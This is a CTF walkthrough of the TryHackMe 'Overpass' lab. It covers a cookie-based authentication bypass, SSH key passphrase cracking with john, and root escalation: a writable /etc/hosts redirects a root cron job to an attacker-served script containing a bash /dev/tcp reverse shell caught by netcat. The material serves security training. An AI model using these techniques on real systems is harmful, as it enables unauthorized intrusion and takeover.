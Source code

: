 ```yaml
---
layout: post
title: " Overpass - TryHackMe"
date: 2020-07-18
ctf: true
excerpt: "Walkthrough for Overpass on TryHackme"
tags: [Overpass, TryHackMe, cron, authentication bypass]
comments: false
---
```


Overpass is an easy difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to root this box.

First, let's scan the box with **nmap -A [machine ip]**.

![Overpass nmap](/assets/img/Overpass1.png)

It appears that SSH and HTTP are the two protocols in use. Let's visit the website and see what shows up there.

![Overpass website](/assets/img/Overpass2.png)

It appears that this is a website for an application that stores your passwords for you. Let's take a look at the Downloads page.

![Overpass Downloads page](/assets/img/Overpass3.png)

This site has both binaries for most OSes and even the source code available for this program. Let's have a look at the source code.

A review of the source code makes a couple of things stand out. The first is that the encryption is done with ROT47, which is trivial to crack (and no where near the "military grade" encryption listed on the main page).

![Overpass source code 1](/assets/img/Overpass4.png)

The second thing that appears further down in the code is that it seems to store the "encrypted" password in the user's home directory with a file named .overpass.

![Overpass source code 2](/assets/img/Overpass5.png)

The About Us page did not seem to have much that was useful, so I decided to run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50** to enumerate the website for hidden directories. Within a few moments, **/admin** showed up.

![Overpass gobuster](/assets/img/Overpass6.png)

Let's take a look at this page and see what's there.

![Overpass website admin](/assets/img/Overpass7.png)

After a few attempts of logging in with common credentials, it appeared that this would either need to be brute forced, or that some other method could be used to bypass authentication. I decided to review the source code of this page.

![Overpass admin source code](/assets/img/Overpass8.png)

In the \<head\> section of this page, there were references to 3 scripts. Let's take a look at the source of login.js to see if we can figure out a weakness in the authentication.

![Overpass login.js source code](/assets/img/Overpass9.png)

It appears that this code takes the credentials you provided and waits for a response from the API to validate your credentials. If validated, it set's a SessionToken cookie and lets you login. However, if they are not correct, it appears to delete the password you supplied and supply you with a message stating Incorrect Credentials.

Based on the fact that the hint said you do not brute force on this box, I opened **Developer Tools**, went to the **Console** tab, and entered **Cookies.set("SessionToken", 200)** and pressed Enter. I selected 200 based on it being the OK status response code for HTTP, but I don't believe it really matters what value is entered.

![Overpass console SessionToken cookie](/assets/img/Overpass10.png)

This created a cookie named **SessionToken**, let's refresh the **/admin** page and see what happens.

![Overpass admin login RSA](/assets/img/Overpass11.png)

Success! We were able to bypass authentication and retrieve a private SSH key. It appears to be for the user  **james** based on the comments above the RSA key. It also suggests cracking the password if we forgot it. Since we don't know it, lets crack it with john.

First, copy everything from **-----BEGIN RSA PRIVATE KEY-----** to **-----END RSA PRIVATE KEY-----** and save it in a file. I saved it as **overpass.txt**.

![Overpass private rsa key](/assets/img/Overpass12.png)

Next, on my attacker PC, I ran **cd /usr/share/john** and ran **python ssh2john.py ~/overpass.txt > ~/overpass.hashes**. This will convert the **overpass.txt** file in my home directory to a hash that john can use to attempt to crack the password.

![Ovverpass ssh2john.py](/assets/img/Overpass13.png)

Next, I navigated back to my home directory with **cd ~** and ran **john overpass.hashes -wordlist=/usr/share/wordlists/rockyou.txt**. Within moments, james' password for his private key has been cracked.

![Overpass crack rsa key password](/assets/img/Overpass14.png)

Now that we have the private key password, let's try to connect to the victim computer. Before doing so, we need to change the permissions on the private key by running **chmod 600 overpass.txt**. Now, run **ssh -i overpass.txt james@[machine ip]**. Enter the password you cracked with john when prompted.

![Overpass james SSH](/assets/img/Overpass15.png)

Success! We are now connected as james. Let's run **ls -al** where you will see the **user.txt** flag. Let's run **cat user.txt** and you will be able to retrieve that flag's value.

![Overpass user.txt](/assets/img/Overpass16.png)

There is also two other interesting files in this folder, **todo.txt** and **.overpass**. Based on the source code you reviewed earlier, you know that **.overpass** is the file that contains credentials in it. Let's run **cat .overpass** to see what's in it. 

![Overpass .overpass](/assets/img/Overpass17.png)

We also know from the source code that ROT47 is used in this file. Let's open up [CyberChef](https://gchq.github.io/CyberChef/) to decrypt this file.

![Overpass cyberchef](/assets/img/Overpass18.png)

We are able to uncover a password for something named **System**, which doesn't seem to mean much as of yet. Let's go back to our victim SSH session and start enumeration. Let's run **sudo -l** and see what comes up. It prompts you for a password. Let's enter the one we just decoded.

![Overpass sudo -l](/assets/img/Overpass19.png)

While this is james' password, he is not a member of the sudoers file so he can't run any sudo commands. Let's copy over linpeas.sh next to do some enumeration. On your attacker PC, navigate to the folder you have this tool saved in and type **python3 -m http.server** to serve up an http server.

![Overpass python3 http server](/assets/img/Overpass20.png)

Next, from james' SSH session, run **wget http://[attacker ip]:8000/linpeas.sh**. Once downloaded, run **chmod +x linpeas.sh** and then **./linpeas.sh** to execute the script.

![Overpass wget linpeas.sh](/assets/img/Overpass21.png)

This will start the enumeration process for this script. It appears that there is a curl job running as root every minute that is running a script to build something in bash.

![Overpass linpeas cronjob](/assets/img/Overpass22.png)

Let's run **cat /etc/crontab** to confirm that this is indeed in the system-wide crontab file.

![Overpass system crontab](/assets/img/Overpass23.png)

It is present, and it looks like it is running a script from a site called overpass.thm. Let's run **ping -c 4 overpass.thm** and see what IP address is returned.

![Overpass ping overpass.thm](/assets/img/Overpass24.png)

It returns the localhost IP. Let's navigate to **cd /etc** and run **ls -al|grep hosts**.

![Overpass /etc/hosts permissions](/assets/img/Overpass25.png)

It appears that this file is misconfigured, as all users have the ability to write to the hosts file. Let's run **nano hosts** and see what is in the file. We are able to open and modify the hosts file's IP addresses. Let's change the entry for **overpass.thm** to your attacker's IP address, so that way it is looking for the buildscript.sh file on your attacker pc.

![Overpass modify /etc/hosts](/assets/img/Overpass26.png)

Next, let's run **ping overpass.thm** to ensure it returns our attacker's IP address.

![Overpass ping overpass.thm](/assets/img/Overpass27.png)

Success, it is now reaching out to your attacker PC over port 80 to attempt to download this file (as port 80 is the default for http). Let's create a new buildscript.sh file to be utilized. First, create a **downloads** folder with a **src** folder inside of it so it mirrors the path that is specified in the cron job (these can be done with **mkdir**). Next, create a **buildscript.sh file** with **!bin/sh** on the first line, and then **bash -i >& /dev/tcp/[attacker ip]4444 0>&1** and save this file.

![Overpass buildscript.sh](/assets/img/Overpass28.png)

Next, open a new terminal tab and run **nc -nvlp 4444** to start a netcat listener to catch the reverse shell from your victim.

![Overpass nc listener](/assets/img/Overpass29.png)

Next, start a new http server over port 80 on the directory above the downloads directory (so that way the cron job looks for your attacker IP/downloads/src/buildscript.sh) with **python3 -m http.server 80**, After a minute, you should see a request on your python http server requesting the script we created. 

![Overpass python3 http server port 80](/assets/img/Overpass30.png)

Once that's done, navigate over to the terminal window with your netcat listener and you should have a reverse shell.

![Overpass nc root reverse shell](/assets/img/Overpass31.png)

We now have a shell as root! This is due to the fact that this job ran as root based on the user listed in the system wide crontab. Let's navigate to root's home directory with **cd /root** and type **cat root.txt** to get the final flag.

![Overpass root.txt](/assets/img/Overpass32.png)
